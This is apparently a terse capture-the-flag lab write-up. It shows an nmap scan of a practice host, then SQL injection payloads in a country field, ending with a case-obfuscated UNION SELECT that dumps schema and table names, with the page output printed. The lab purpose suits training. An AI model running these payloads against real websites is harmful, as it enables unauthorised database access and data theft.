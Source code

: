 ### Tools:

### Vulnerabilities:

```console
└─$ nmap -A -p- -T4 -Pn 10.129.95.235
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-29 14:11 CDT
Nmap scan report for 10.129.95.235
Host is up (0.060s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.13 seconds
```

```Argentina'```

```php

<div class="container">
		<h1 class="text-center m-5">Join the UHC - September Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
            <h1 class="text-white">Welcome asd</h1><h3 class="text-white">Other Players In Argentina'</h3><br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b> on line <b>33
```

```Argentina'-- -```
```Argentina' UNION SELECT null-- -```
```Argentina' UniOn Select gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata-- -```

```php
<div class="container">
		<h1 class="text-center m-5">Join the UHC - September Qualifiers</h1>
		
	</div>
	<section class="bg-dark text-center p-5 mt-4">
		<div class="container p-5">
            <h1 class="text-white">Welcome asdfqaaaaababaaaaa</h1><h3 class="text-white">Other Players In Argentina'UNION SELECT gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata-- -</h3><li class='text-white'>asdf</li><li class='text-white'>|information_schema|,|performance_schema|,|mysql|,|registration|</li>		</div>
```


|ALL_PLUGINS|,|APPLICABLE_ROLES|,|CHARACTER_SETS|,|CHECK_CONSTRAINTS|,|COLLATIONS|,|COLLATION_CHARACTER_SET_APPLICABILITY|,|COLUMNS|,|COLUMN_PRIVILEGES|,|ENABLED_ROLES|,|ENGINES|,|EVENTS|,|FILES|,|GLOBAL_STATUS|,|GLOBAL_VARIABLES|,|KEY_CACHES|,|KEY_COLUMN_USAGE|,|OPTIMIZER_TRACE|,|PARAMETERS|,|PARTITIONS|,|PLUGINS|,|PROCESSLIST|,|PROFILING|,|REFERENTIAL_CONSTRAINTS|,|ROUTINES|,|SCHEMATA|,|SCHEMA_PRIVILEGES|,|SESSION_STATUS|,|SESSION_VARIABLES|,|STATISTICS|,|SYSTEM_VARIABLES|,|TABLES|,|TABLESPACES|,|TABLE_CONSTRAINTS|,|TABLE_PRIVILEGES|,|TRIGGERS|,|USER_PRIVILEGES|,|VIEWS|,|CLIENT_STATISTICS|,|INDEX_STATISTICS|,|INNODB_SYS_DATAFILES|,|GEOMETRY_COLUMNS|,|INNODB_SYS_TABLESTATS|,|SPATIAL_REF_SYS|,|INNODB_BUFFER_PAGE|,|INNODB_TRX|,|INNODB_CMP_PER_INDEX|,|INNODB_METRICS|,|INNODB_LOCK_WAITS|,|INNODB_CMP|,|THREAD_POOL_WAITS|,|INNODB_CMP_RESET|,|THREAD_POOL_QUEUES|,|TABLE_STATISTICS|,|INNODB_SYS_FIELDS|,|INNODB_BUFFER_PAGE_LRU|,|INNODB_LOCKS|,|INNODB_FT_INDEX_TABLE|,|INNODB_CMPMEM|,|THREAD_POOL_GROUPS|,|INNODB_CMP_PER_INDEX_RESET|,|INNODB_SYS_FOREIGN_COLS|,|INNODB_FT_INDEX_CACHE|,|INNODB_BUFFER_POOL_STATS|,|INNODB_FT_BEING_DELETED|,|INNODB_SYS_FOREIGN|,|INNODB_CMPMEM_RESET|,|INNODB_FT_DEFAULT_STOPWORD|,|INNODB_SYS_TABLES|,|INNODB_SYS_COLUMNS|,|INNODB_FT_CONFIG|,|USER_STATISTICS|,|INNODB_SYS_TABLESPACES|,|INNODB_SYS_VIRTUAL|,|INNODB_SYS_INDEXES|,|INNODB_SYS_SEMAPHORE_WAITS|,|INNODB_MUTEXES|,|user_variables|,|INNODB_TABLESPACES_ENCRYPTION|,|INNODB_FT_DELETED|,|THREAD_POOL_STATS|,|accounts|,|cond_instances|,|events_stages_current|,|events_stages_history|,|events_stages_history_long|,|events_stages_summary_by_account_by_event_name|,|events_stages_summary_by_host_by_event_name|,|events_stages_summary_by_thread_by_event_name|,|events_stages_summary_by_user_by_event_name|,|events_stages_summary_global_by_event_name|,|events_statements_current|,|events_statements_history|,|events_statements_history_long|,|events_statements_summary_by_account_by_event_name|,|events_statements_summary_by_digest|,|events_statements_summary_by_host_by_event_name|,|events_statements_summary_by_program|,|events_statements_summary_by_thread_by_event_name|,|events_statements_summary_by_user_by_event_name|,|events_statements_summary_global_by_event_name|,|events_transactions_current|,|events_transactions_history|,|events_transactions_history_long|,|events_transactions_summary_by_account_by_event_name|,|events_transactions_summary_by_host_by_event_name|,|events_transactions_summary_by_thread_by_event_name|,|events_transactions_summary_by_user_by_event_name|,|events_transactions_summary_global_by_event_name|,|events_waits_current|,|events_waits_history|,|events_waits_history_long|,|events_waits_summary_by_account_by_event_name|,|events_waits_summary_by_host_by_event_name|,|events_waits_summary_by_instance|,|events_waits_summary_by_thread_by_event_name|,|events_waits_summary_by_user_by_event_name|,|events_waits_summary_global_by_event_name|,|file_instances|,|file_summary_by_event_name|,|file_summary_by_instance|,|global_status|,|host_cache|,|hosts|,|memory_summary_by_account_by_event_name|,|memory_summary_by_host_by_event_name|,|memory_summary_by_thread_by_event_name|,|memory_summary_by_user_by_event_name|,|memory_summary_global_by_event_name|,|metadata_locks|,|mutex_instances|,|objects_summary_global_by_type|,|performance_timers|,|prepared_statements_instances|,|replication_applier_configuration|,|replication_applier_status|,|replication_applier_status_by_coordinator|,|replication_connection_configuration|,|rwlock_instances|,|session_account_connect_attrs|,|session_connect_attrs|,|session_status|,|setup_actors|,|setup_consumers|,|setup_instruments|,|setup_objects|,|setup_timers|,|socket_instances|,|socket_summary_by_event_name|,|socket_summary_by_instance|,|status_by_account|,|status_by_host|,|status_by_thread|,|status_by_user|,|table_handles|,|table_io_waits_summary_by_index_usage|,|table_io_waits_summary_by_table|,|table_lock_waits_summary_by_table|,|threads|,|user_variables_by_thread|,|users|,|user|,|transaction_registry|,|help_relation|,|roles_mapping|,|help_keyword|,|global_priv|,|event|,|func|,|db|,|time_zone|,|procs_priv|,|tables_priv|,|help_topic|,|time_zone_leap_second|,|innodb_index_stats|,|table_stats|,|plugin|,|proxies_priv|,|general_log|,|gtid_slave_pos|,|time_zone_transition|,|time_zone_name|,|time_zone_transition_type|,|proc|,|slow_log|,|innodb_table_stats|,|column_stats|,|help_category|,|columns_priv|,|index_stats|,|servers|,|registration|```
